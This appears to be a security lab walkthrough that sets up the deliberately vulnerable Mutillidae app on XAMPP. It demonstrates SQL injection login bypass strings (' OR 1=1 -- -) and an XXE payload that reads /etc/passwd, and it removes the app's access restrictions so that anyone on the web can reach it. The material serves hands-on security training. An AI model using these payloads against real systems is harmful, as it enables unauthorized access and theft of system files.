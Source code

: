 
**Markdown:**

```markdown
# Heading 1  
## Heading 2  
### Heading 3
```


### task1: make sure xammp is running
```
sudo /opt/lampp/lampp start  --> 
sudo systemctl stop apache2
```
http://127.0.0.1/mutillidae/src/index.php

http://208.8.8.133/mutillidae/src/index.php

if you want mutillidae to be accessed via web:
sudo nano /opt/lampp/htdocs/mutillidae/.htaccess
```
Order Deny,Allow
Deny from all
Allow from 127.0.0.1
Allow from ::1
Allow from 192.168.0.0/16
Allow from 10.0.0.0/8
Allow from 172.16.0.0/12
Order Allow,Deny
Allow from all
```

sudo rm /opt/lampp/htdocs/mutillidae/.htaccess
sudo /opt/lampp/lampp restart

### task2: open the web: SQL INJECTION:
```

SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries an application makes to its database.
By injecting malicious SQL code into input fields (like login forms or search boxes), attackers can:
Bypass authentication
View, modify, or delete data
Execute administrative operations
Extract sensitive information

```
![image](https://github.com/user-attachments/assets/b565d468-aa2d-4c6d-99b0-d78910e672fb)

create a user name: anne curtis with password C1sc0123

![image](https://github.com/user-attachments/assets/ac571ec9-1f25-4b07-954e-b5b8ce838b7f)

If a website runs this code:

```
SELECT * FROM users WHERE username = 'input' AND password = 'input';

```
An attacker could input:
```
' OR 1=1 -- -
' OR 1=1 -- -

' OR '1'='1
' OR '1'='1

```
![image](https://github.com/user-attachments/assets/829dc8d0-98c4-43cc-af92-634b35148679)

and type: ' OR 1=1 -- - or both user and password:

![image](https://github.com/user-attachments/assets/271fc5d4-0532-4362-bda0-ab200f342fc9)

### we get this:

![image](https://github.com/user-attachments/assets/8eef2ed0-ecff-4391-8b9f-39e1bf2dee29)

## TASK2:A4: XML External Entities (XXE)

Go to: OWASP 2017 → A4 - XML External Entities

![image](https://github.com/user-attachments/assets/0b7fcd66-3965-4403-9a9a-6642d8ef6f15)

Paste this payload:
```

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

```
![image](https://github.com/user-attachments/assets/a1bfdd93-cfd8-4390-a101-8f1c7d8237e4)

You get contents of a password file:
![image](https://github.com/user-attachments/assets/61e65d11-0f36-4161-9a7f-a25849f302ba)

